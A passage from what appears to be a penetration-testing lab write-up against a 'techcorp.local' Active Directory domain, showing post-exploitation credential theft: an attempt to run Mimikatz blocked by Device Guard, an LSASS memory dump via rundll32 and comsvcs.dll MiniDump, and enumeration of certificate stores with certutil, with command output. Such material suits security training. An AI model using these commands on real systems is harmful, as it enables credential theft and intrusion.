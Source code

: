 - By impersonating `us\jumpone$` we can remotely access the server with administrative privileges and steal credentials and tokens, using **Mimikatz**, **Rubeus**and **certutil**, after we temporarily disable AV.
```powershell
PS C:\Windows\Tasks> .\mimikatz.exe
.\mimikatz.exe
Program 'mimikatz.exe' failed to run: Your organization used Device Guard to block this app. Contact your support

<snip>
```
- It seems that **Device Guard** is blocking us from using our credential pillaging tools. Since we have administrative privileges on the compromised server we can dump LSASS using native Windows binaries and attempt to crack it on our own server. We can use **comsvcs.dll** and **rundll32.exe**.
```powershell
PS C:\Windows\Tasks> tasklist /FI "IMAGENAME eq lsass.exe"
tasklist /FI "IMAGENAME eq lsass.exe"

Image Name                     PID Session Name        Session#    Mem Usage
========================= ======== ================ =========== ============
lsass.exe                      696 Services                   0     21,400 K

PS C:\Windows\Tasks> rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 696 C:\Windows\Tasks\lsass.dmp full
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 696 C:\Windows\Tasks\lsass.dmp full
PS C:\Windows\Tasks> dir
dir


    Directory: C:\Windows\Tasks


Mode                LastWriteTime         Length Name                                               
----                -------------         ------ ----                                               
-a----        12/2/2023   9:44 AM       47255290 lsass.dmp                                          
-a----        12/2/2023   8:56 AM        1250056 mimikatz.exe
```
- We can also search for certificates in the _Local Machine_ and _Current User_ Certificate Stores.
```powershell
PS C:\Windows\Tasks> certutil -store My
certutil -store My
My "Personal"
================ Certificate 0 ================
Serial Number: 770000002277618a0e7a1bce4f000000000022
Issuer: CN=TECHCORP-DC-CA, DC=techcorp, DC=local
 NotBefore: 6/1/2023 1:34 AM
 NotAfter: 5/31/2024 1:34 AM
Subject: E=pawadmin@techcorp.local, CN=pawadmin, CN=Users, DC=us, DC=techcorp, DC=local
Non-root Certificate
Template: 1.3.6.1.4.1.311.21.8.11428283.12600195.6637456.4695971.7627035.128.16055752.16575009, Users
Cert Hash(sha1): 725a67544603edee1d700acdce04c7b32b447be6
  Key Container = te-Users-58337848-55d1-4714-af0f-aa001efcbef8
  Unique container name: 97d732b54b2befc0dedb62890889e59f_47299789-e16f-492c-bb4d-2624d87a6ec3
  Provider = Microsoft Enhanced Cryptographic Provider v1.0
Encryption test passed
CertUtil: -store command completed successfully.

PS C:\Windows\Tasks> certutil -store -user My
certutil -store -user My
My "Personal"
CertUtil: -store command completed successfully.
```